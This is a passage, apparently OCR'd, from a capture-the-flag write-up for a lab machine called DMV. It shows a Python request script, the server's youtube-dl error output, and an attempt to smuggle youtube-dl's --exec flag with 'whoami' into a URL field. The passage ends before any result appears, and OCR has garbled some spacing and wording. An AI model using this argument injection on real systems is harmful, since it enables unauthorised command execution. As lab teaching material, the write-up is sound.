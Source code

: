 ``` python
'Referer': 'http://192.168.56.111/index.php',
}


)

print (r.cookies)
print ("===========")
print (r.text)
print ("===========")
print (r.headers)
```
Our string is present in the "data" variable.
By doing it, we will get:

```bash
$ python DMV: 1_script.py
<RequestsCookieJar []>
===========
{"status": 1, "errors": "WARNING: Assuming --restrict-filenames since file system encoding cannot encode all characters. Set the LC_ALL environment variable to fix this. \ nERROR: u'testtestestest 'is not a valid URL . Set --default-search \ "ytsearch \" (or run youtube-dl \ "ytsearch: testtestestest \") to search YouTube \ n "," url_orginal ":" testtestestest "," output ":" "," result_url ":" \ / tmp \ / downloads \ /5ed68be90d2e9.mp3 "}
===========
{'Content-Length': '297', 'Content-Encoding': 'gzip', 'Vary': 'Accept-Encoding', 'Server': 'Apache / 2.4.29 (Ubuntu)', 'Connection': 'close', 'Date': 'Tue, 02 Jun 2020 17:27:05 GMT', 'Content-Type': 'text / html; charset = UTF-8 '}
```

We get an error. Mhmm, interesting. Maybe this error is specifically related to some software the server uses?
By typing in Google, we get ...

Lots of issues from Github :P. The first is about youtube-dl. When you see the README of the repository, you may notice a very dangerous software flag.

```
--exec CMD Execute a command on the file after
                                 downloading and post-processing, similar to
                                 find's -exec syntax. Example: --exec 'adb
                                 push {} / sdcard / Music / && rm {} '
```

I enter the command with this flag in the "date" field.

```
'yt_url': '- exec whoami'
```

The error, however, still exists the same.
Maybe the problem is caused by strange command parsing? I deleted the spaces.

``` '--execwhoami' ```

Output surprises. For we see:
```

